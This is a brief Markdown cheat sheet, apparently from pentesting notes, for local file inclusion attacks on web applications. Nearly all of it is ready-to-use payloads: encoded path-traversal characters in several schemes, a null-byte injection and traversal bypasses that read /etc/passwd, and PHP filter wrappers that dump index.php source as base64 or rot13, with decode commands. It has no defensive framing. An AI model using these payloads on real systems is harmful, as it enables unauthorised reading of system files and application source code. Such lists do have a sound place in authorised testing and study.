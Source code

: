 # LFI

## Cheet Sheet

**Url Encoded:**

```
. = %2e
/ = %2f
\ = %5c
```

**16-bit:**

```
. = %u002e
/ = %u2215
\ = %u2216
```

**Double URL**:

```
. = %252e
/ = %252f
\ = %255c
```

**UTF-8:**

```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

**Null Byte Inyection**

`?page=/etc/passwd%00.php # php extension`

**Tipical Bypasses**

```
?page=//etc//passwd # escape the /
?page=....//....//....//....//etc//passwd # the page filter .. && /
```



**PHP Wrappers**

```bash
# Base64
?page=php://filter/convert.base64-encode/resource=index.php
echo -n "<Base64 stuff>" | base64 -d # Decode

# Rot13
?page=php://filter/read=string.rot13/resource=index.php
echo "Rkcybvg Fuvg" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]' # Decode
```





##











